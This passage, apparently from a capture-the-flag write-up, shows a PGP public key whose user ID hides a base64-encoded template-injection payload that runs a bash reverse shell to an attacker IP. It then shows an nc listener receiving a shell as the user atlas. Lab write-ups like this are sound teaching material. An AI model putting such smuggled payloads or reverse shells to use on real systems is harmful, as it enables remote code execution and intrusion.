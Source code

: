     mQGNBGVTuBkBDADF3/fo3OL+jyM1HYyInEguIKCXv9lseHpIHzzjU/+Q2womH8zq
    xwatpT3j2f5N8TGhtS3KsG9pwNxS6+Oj4YS5IzSMOg164fXJLy0nAh0OcEpr3/ei
    yy/2JxwvyL1HYXS/v5sXb9pZAVk3GP4rUSTS7itugPqE/MzhegBwHiZa3HgSBxq5
    C23j5BIQOdGrdYqceVWHtxSqYu/6hTo508+lpdqZZ9temaaz2l063GD0ck0jklKT
    txeJyHUDmsDgRbDvC6kxCmg4coFRJoWw47+b2fIY3Mw5rMfq9vmnCfhAPxb/dCwB
    Hc27MhA8wywNbutge9nfemgdlyCQ65C3UwbUCXH1ERqcJrbNlFb1ejmst6SjwU2Y
    wXC4PweADTsCfu1514sfGJI0DMWFoxMH5gEgHySoAqNandJGsCr4WXFJhXQzVQOc
    dMZQh8DS3NveD+SquTKddo4CYe3uhFaXmKn/htnzdIBeFcNYKqjegXpd5nSc5Rg+
    yHxJIF1HxDlDjtkAEQEAAbSae3sgbmFtZXNwYWNlLl9faW5pdF9fLl9fZ2xvYmFs
    c19fLm9zLnBvcGVuKCdlY2hvIFltRnphQ0FnTFdrZ1BpWWdMMlJsZGk5MFkzQXZN
    VEF1TVRBdU1UUXVOaTgwTkRNZ01ENG1NU0FLIHwgYmFzZTY0IC1kIHwgYmFzaCcp
    LnJlYWQoKSB9fSA8cmNlLXJldkBzc2EuaHRiPokB1AQTAQoAPhYhBGj073BAkjNz
    9OaogynzKPrkil2SBQJlU7gZAhsDBQkDwmcABQsJCAcCBhUKCQgLAgQWAgMBAh4B
    AheAAAoJECnzKPrkil2S1UoL/2K2unHJpZtQhLmUXqWkUnDGgcJxtSR55NSE08E7
    CgyUG7dcwcruf5jJjXeGGZpQcSOmhOuRUdZYLOPXkjF9EWhcWHzPw4+cOlgnmZxa
    F63Cu2aSR5L/0BwZOKUw9l6Ruk2q+dFzoT+wwOw1QuPZ8t6VcvCVLDiKJ71tiSgk
    nllNVGU0nsFNF/++jIjzl6Fbtj05ljfmNdboIZRlGuH6Bi9mh5wU1txc3+eTJ8/I
    S27kUlkSBuRDYJkx2cQrW+JOQrBF0AN8+z4Ku30yDS6p8lqTDk8iCWbLjDK19FIE
    wVOV12vMkLQVEsv39PPTHZkjmPK1BOEpGi2f8ZTF2ipK/lgXUrAGq0cpxJFurhBm
    U0ONNmlwTnPR2ircAaR+TtEL9BoSHDs9mRKe028u/YVZxD+FDfvEWsWOZIrJvZjG
    MEoH89R4SJGVOtSzXqCP5cgzS/1B1qc8yY2ymyAwmjEqVWSU8hm7JokS6ApNK+0M
    OSv4eA8KHOW/VfHusaYpKR2Ai7kBjQRlU7gZAQwAtBsJc4ZM8JvfNub9IyTxP7MK
    M1Kq3RDDK9ghKN2SrecvxsSZ4o+8hiYer7aBevxRfczM6hEUIIFSO4e81203NWQc
    GoE/BthFK89uLMCHsL/raVIhmc2u61u2Oz617gy+9fgtgKsqfshnGjLNJ4TZNW8i
    730jvQ+5Tf65IMLdclwItJ3YUFrEnnELymV3T30cFnx3ou6v9ESgrZrntsxjR3f8
    GRLzYPnB4nQ89b6bIfoE/cV4rv3ul7AErK9T2RRRO8HHqcHVWcB7Hnij063zXsNi
    pFJKkAxASNfhQHOFHJBuiCnrM2/HeeT4nnr/9lK+fkxo0uI6dfFAaRYac95iHX1R
    uMTGFHzWW0Aw/CTaj+dFjZX8A6wFJ/kwvaWh/woXN2uL7UtyvLyhsDIXzu3Deyhp
    Vv3V867L1wnEaCuvYl2PQkMSgQ7TPKX8VccrSLWiuc/aBeKDbENt6pqOLGn+gPAN
    EVigVQjlIEkwHHBTHIeT7AzlhiSUlCdHknTgTJq9ABEBAAGJAbwEGAEKACYWIQRo
    9O9wQJIzc/TmqIMp8yj65IpdkgUCZVO4GQIbDAUJA8JnAAAKCRAp8yj65IpdkoZD
    DACNIrLtVsTYXCWvkNZAmQizlcylIObfRwqwbTfOCmTDpvUH+kgSzW4YgBb9Xf1f
    e6sJeI9H255L5ibz2I5FcJe27BBjYlGH7pYX3KFvPIK+9SV7OLh6/CG2Ez+Q49Qe
    mUSYdlLRlb6A+42TK/3RXkyTiD6S0jhPYBdxPkAcclxq7IiJoeah14z7nsVgSS8R
    wxwvr4jBLEJcidhHx6xnXOjxLGyZxLvwms1YPRUAWQI7WinqLKekvP9Lyzw8yftu
    O3Z/5pjNZKOdocuCxs8S5XGs7shQmv1M3fiYT3JuzDZ00nBJoRhY/sWIperaQOd1
    3O6Vpan63QV7Hatadg+eSmkpf2FOaMb2VEoehxDPFyut3JbJSG0pIXAzcZbwdcXP
    K8J4ckXxJheyUwP+qjddR2rbz89SDwVHmB1Y4tx2oTxNWOWpYkpZSmAxeDLJOpTa
    fyNyB5rUFFnOdwy0q5dziMOn43QdlYRtzATiJbAldQe5ge5Yelte842DKEhrPSHQ
    ARc=
    =GTRb
    -----END PGP PUBLIC KEY BLOCK-----
    

With `nc` listening, I’ll submit these to the site and get a shell as atlas:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.218 49352
    bash: cannot set terminal process group (-1): Inappropriate ioctl for device
    bash: no job control in this shell
    /usr/local/sbin/lesspipe: 1: dirname: not found
    atlas@sandworm:/var/www/html/SSA$ id
    uid=1000(atlas) gid=1000(atlas) groups=1000(atlas)
    